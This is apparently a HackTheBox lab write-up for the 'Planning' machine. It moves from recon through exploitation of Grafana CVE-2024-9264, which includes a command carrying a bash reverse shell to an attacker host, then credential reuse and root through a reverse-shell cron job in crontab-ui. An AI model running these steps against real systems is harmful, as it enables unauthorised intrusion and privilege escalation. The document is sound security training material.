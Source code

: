 ```yaml
---
title: Planning
published: 2025-05-31
description: "Planning is an easy Linux machine that demonstrates CVE-2024-9264 to get initial access and using crontab-ui to escalate privilege.
"
image: "/banner/Planning.png"
tags: [Linux, Easy, CVE-2024-9264, Grafana, Crontab UI]
category: "HackTheBox"
draft: false
lang: "en"
---
```


# Description

Planning is an easy Linux machine that demonstrates CVE-2024-9264 to get initial access and using Crontab UI to escalate privilege.

# Recon

## nmap

Result of `nmap` scan :

```bash
# Nmap 7.95 scan initiated Sat May 31 19:26:41 2025 as: nmap -vvv -p- -T4 -sSCV -oN all_tcp_scan.txt --min-rate=1000 10.10.11.68
Warning: 10.10.11.68 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.11.68 (10.10.11.68)
Host is up, received echo-reply ttl 63 (0.22s latency).
Scanned at 2025-05-31 19:26:41 WIB for 95s
Not shown: 64988 closed tcp ports (reset), 545 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMv/TbRhuPIAz+BOq4x+61TDVtlp0CfnTA2y6mk03/g2CffQmx8EL/uYKHNYNdnkO7MO3DXpUbQGq1k2H6mP6Fg=
|   256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKpJkWOBF3N5HVlTJhPDWhOeW+p9G7f2E9JnYIhKs6R0
80/tcp open  http    syn-ack ttl 63 nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://planning.htb/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Only ports 22 and 80 are open. The `80` port is redirecting to `http://planning.htb`. Let's add it to the `/etc/hosts` file.

```bash
10.10.11.68 planning.htb
```

We have given a credential `admin:0D5oT70Fq13EvB5r` but we don't know where it is used.

# 80 - TCP

Visiting the website will only display a static page.
![alt text](image.png)

Let's fuzz the VHOST.

```bash
> ffuf -u http://planning.htb/ -H "Host: FUZZ.planning.htb" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -ic -c -fs 178

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://planning.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
 :: Header           : Host: FUZZ.planning.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 178
________________________________________________

grafana                 [Status: 302, Size: 29, Words: 2, Lines: 3, Duration: 251ms]
```

It found `grafana` subdomain, add it to the `/etc/hosts` file.

```bash
10.10.11.68 planning.htb grafana.planning.htb
```

Visiting `grafana.planning.htb` shows a login page for `Grafana`. The version is `11.0.0` can be found in the footer. This version has a [CVE-2024-9264](https://grafana.com/blog/2024/10/17/grafana-security-release-critical-severity-fix-for-cve-2024-9264/) which has a Public PoC [Authenticated RCE Exploit](https://github.com/nollium/CVE-2024-9264). We could login to the `grafana` dashboard using the supplied credential so it's a valid credential.

```bash
python CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c 'bash -c "bash -i >& /dev/tcp/10.10.x.x/9001 0>&1"' http://grafana.planning.htb/
```

# Shell as root at container

## Enumeration

Running `env` reveals `grafana` security admin credential.

```bash
> env
...
GF_SECURITY_ADMIN_PASSWORD=<password>
GF_SECURITY_ADMIN_USER=enzo
...
```

# Shell as enzo

## User flag

The previous credential is valid for SSH access.

```bash
enzo@planning:~$ cat user.txt
deadbeefc0bf1228235e5d40980bfake
```

## Enumeration

There is an internal service at port `8000`. The service at port `3000` is the Grafana dashboard based on the nginx configuration.

```bash
server {
    listen 80;
    server_name planning.htb;

    if ($host != "planning.htb") {
        return 301 http://planning.htb$request_uri;
    }

    root /var/www/web;
    index index.html index.htm index.php;

    location ~ \.php$ {
        include snippets/fastcgi-php.conf;
        fastcgi_pass unix:/run/php/php8.3-fpm.sock;
    }

    location / {
        try_files $uri $uri/ =404;
    }

    access_log /var/log/nginx/access.log combined;
    error_log /var/log/nginx/error.log;
}

server {
    listen 80;
    server_name grafana.planning.htb;

    location / {
        proxy_pass http://grafana.planning.htb:3000/;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;
    }
}
```

Running a linpeas will find a `Dockerfile` at `/usr/lib/node_modules/crontab-ui/Dockerfile`. There is `docker-compose.yml` too that reveals a mapping to the port `8000`.

```bash
> cat docker-compose.yml
version: '3.7'

services:
  crontab-ui:
    build: .
    image: alseambusher/crontab-ui
    network_mode: bridge
    ports:
      - 8000:8000
```

Checking the `/opt` directory, I found a password inside `/opt/crontabs/crontab.db` file. The owner of this file is `root`. Trying the password for local `root` user didn't work. Maybe it can be used for the `crontab-ui` service. Let's use the SSH to forward the local port `8000`.

```bash
ssh -L 8000:127.0.0.1:8000 enzo@planning.htb
```

Visiting `http://localhost:8000` with credential `root:P4ssw0rdS0pRi0T3c` is working well.

![alt text](image-1.png)

We can create a new cron job to run a reverse shell. We can use the `Run now` button to run the cron job immediately.

![alt text](image-2.png)

# Shell as root

## Root flag

```bash
root@planning:/# cat /root/root.txt
cat /root/root.txt
deadbeef4402df412b17fbfebcaffake
```
